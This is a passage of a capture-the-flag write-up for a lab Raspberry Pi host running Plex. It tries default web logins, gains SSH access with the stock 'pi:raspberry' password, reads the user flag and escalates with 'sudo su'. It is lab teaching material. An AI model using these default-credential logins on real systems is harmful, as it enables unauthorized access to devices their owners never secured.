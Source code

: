 Plex Media Server, developed by Plex, Inc., is used to organize and host audio, videos and photos in a client-server fashion which allows connected devices to stream media.  

I tried some default credentials here:  

> admin:admin  
> admin:password  
> root:root  
> root:toor  

But nothing went through, so I referred back to my Nikto scan.  

Trying to navigate to /webmail/ was not fruitful, and the tip on performing a BREACH attack was not helpful. Read more on BREACH attacks [here](https://resources.infosecinstitute.com/topic/the-breach-attack/).  

>Short answer: BREACH attacks require a victim to initiate them.  

Trying to visit other directories on this port most often loaded a blank XML file.  

## Initial Access via SSH  

Without overworking the web-enumeration (as this is an *easy* box), I decided to try the default Raspberry-Pi credentials over SSH.  

```bash
ssh pi@10.10.10.48

The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: raspberry

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```

Alright, so we have access to the user **pi** on the host **raspberrypi**.  

### User Flag

Navigate to ~/Desktop for the User Flag:  

```bash
cat ~/Desktop/user.txt
```  

## Privilege Escalation  

I escalated to **root** almost immediately by changing my current user to super-user :  

```bash
sudo su

root@raspberrypi: 
```
